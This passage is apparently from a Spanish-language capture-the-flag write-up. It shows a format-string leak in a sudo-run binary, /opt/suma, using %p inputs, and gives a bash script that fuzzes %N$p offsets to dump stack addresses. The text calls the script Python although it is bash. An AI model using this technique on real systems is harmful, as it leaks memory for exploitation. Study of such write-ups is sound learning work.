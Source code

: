 Vamos a ver que informacion nos muestra si ponemos varios `%p` de la siguiente forma:

```shell
sudo /opt/suma
```

Info:

```
Escribe su nombre:
%p%p%p%p%p
Hola, 0x402051(nil)(nil)0x4056bb0x73

Escribe la clave para acceder a la funcionalidad del software:
^C
```

Vemos que nos esta mostrando varias direcciones de memoria.

**Explorando el stack:**

En un **stack**, los datos se almacenan de forma ordenada. Primero se guardan algunas variables locales, luego la dirección de retorno de las funciones (que es a dónde el programa vuelve después de ejecutar una función), y otros datos. Cada vez que llamamos a `printf` con un `%p`, le estamos diciendo a `printf` que imprima una dirección que está en el stack.

Entonces, al enviar varios `%p` como entrada, podemos leer las direcciones de memoria del stack, una por una. Esto es como leer las páginas de un libro para entender cómo está estructurado el programa.

**Fuzzing con Bash:**

Para hacer todo esto de forma automatizada, creamos un pequeño **script en Python** que envía muchas veces el formato `%p` al programa y lee las direcciones de memoria una a una.

Este script puede ser como un explorador, leyendo diferentes partes de la memoria:

> detect.sh

```bash
#!/bin/bash

# Definimos el número de intentos para fuzzing
NUM_ITERATIONS=100

# Ruta del binario vulnerable
BINARY="/opt/suma"

# Realizamos fuzzing para leer valores del stack
for i in $(seq 1 $NUM_ITERATIONS); do
    # Enviamos el formato %p al programa y leemos la dirección de memoria
    result=$(echo "%${i}\$p" | $BINARY 2>/dev/null)

    # Extraemos solo la dirección de memoria que sigue después de "Hola,"
    address=$(echo "$result" | grep -oP "Hola, \K0x[0-9a-fA-F]+")

    # Si encontramos una dirección válida, la mostramos
    if [ -n "$address" ]; then
        echo "Iteración $i: $address"
    fi
done
```
